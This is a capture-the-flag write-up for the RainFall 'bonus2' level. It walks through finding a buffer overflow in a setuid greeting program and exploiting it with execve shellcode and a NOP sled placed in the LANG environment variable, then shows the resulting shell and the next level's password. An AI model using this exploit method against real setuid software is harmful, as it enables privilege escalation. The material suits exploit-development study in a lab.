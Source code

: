 # Bonus2

We can find an executable waiting for two inputs and print them by separating them with a space :
```
bonus2@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 bonus3 users 5664 Mar  6  2016 bonus2
bonus2@RainFall:~$ ./bonus2 
bonus2@RainFall:~$ ./bonus2 bla
bonus2@RainFall:~$ ./bonus2 bla bla
Hello bla
bonus2@RainFall:~$
```
After analyze it with gdb we can find two interesting functions : `main()` and `greetuser()`.  
Please refer to file [asm_analysis.md](https://github.com/maxisimo/42-RainFall/blob/main/bonus2/Ressources/asm_analysis.md) in parallel of [source.c](https://github.com/maxisimo/42-RainFall/blob/main/bonus2/source.c) for more details.  
So we enter 2 arguments to the program. Then it copies at most 40 bytes of argv[1] in a buffer, and at most 32 bytes of argv[2] in the same buffer at index 40 (so after argv[1]).  
WE can see that the program also checks the LANG env variable and sets a global variable to either 1 if LANG is equal to 'fi' or 2 if LANG is equal to 'nl'.  
Then in greetuser it copies a message (different length depending on the language) in a 64 bytes buffer. And then concatenate to it, our string given as parameter.  
Let's try to get the offset of `eip` with the differents possibles values of LANG with the pattern generator :  
- LANG!=fi && LANG!=nl
```
(gdb) run $(python -c 'print "A" * 40') Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab

Program received signal SIGSEGV, Segmentation fault.
0x08006241 in ?? ()              // offset : ??
```
If we don't set LANG, our global variable is equal to 0. Then, the concatenation of  "Hello " and our string given as parameter is made on our buffer but it's not long enought to overwrite `eip`.  
- LANG=fi
```
bonus2@RainFall:~$ export LANG=fi
bonus2@RainFall:~$ gdb bonus2
(gdb) run $(python -c 'print "A" * 40') Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab
Hyvää päivää AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab

Program received signal SIGSEGV, Segmentation fault.
0x41366141 in ?? ()              // offset : 18
```
- LANG=nl
```
bonus2@RainFall:~$ export LANG=nl
bonus2@RainFall:~$ gdb bonus2
(gdb) run $(python -c 'print "A" * 40') Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab
Goedemiddag! AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab

Program received signal SIGSEGV, Segmentation fault.
0x38614137 in ?? ()              // offset : 23
```
If LANG is either 'fi' or 'nl' and the parameter passed to `greetuser()` is long enough, we can overwrite the return address (`eip`) !  
<br />
<hr />

Lets's build our exploit:
- First, we'll need a [shellcode](http://shell-storm.org/shellcode/files/shellcode-575.php) :  
	"\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"
- Second, put our shellcode in env variable LANG :  
	export LANG=$(python -c 'print("nl" + "\x90" * 100 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80")')  
	*Of course you can tape "nl" or "fi"*  
- Then, create templates for our args :  
	argv[1] : padding (40 bytes)  
	argv[2] : padding (18 or 23 bytes depends of LANG) + address inside `NOP` instructions (4 bytes)
- Determine the address inside `NOP` instructions :  
	Find the start address of LANG with gdb :
	- b *main+125
	- run $(python -c 'print "A"*40') bla
	- x/20s *((char**)environ)  
	Then add random value to reach an address inside `NOP` instructions  

LANG=nl
```
bonus2@RainFall:~$ export LANG=$(python -c 'print("nl" + "\x90" * 100 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80")')
(gdb) b *main+125
(gdb) run $(python -c 'print "A"*40') bla
(gdb) x/20s *((char**)environ)
0xbffffeb4 + 50 (random value) = 0xbffffee6
bonus2@RainFall:~$ ./bonus2 $(python -c 'print "A" * 40') $(python -c 'print "B" * 23 + "\xe6\xfe\xff\xbf"')
Goedemiddag! AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBBBBB
$ whoami
bonus3
$ cat /home/user/bonus3/.pass
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
$ exit
bonus2@RainFall:~$
```
LANG=fi
```
bonus2@RainFall:~$ export LANG=$(python -c 'print("nl" + "\x90" * 100 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80")')
(gdb) b *main+125
(gdb) run $(python -c 'print "A"*40') bla
(gdb) x/20s *((char**)environ)
0xbffffeb4 + 50 (random value) = 0xbffffee6
bonus2@RainFall:~$ ./bonus2 $(python -c 'print "A" * 40') $(python -c 'print "B" * 18 + "\xe6\xfe\xff\xbf"')
Hyvää päivää AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBB
$ whoami
bonus3
$ cat /home/user/bonus3/.pass
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
$ exit
bonus2@RainFall:~$ su bonus3
Password:
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   /home/user/bonus3/bonus3
bonus3@RainFall:~$
```
Bonus2 passed!
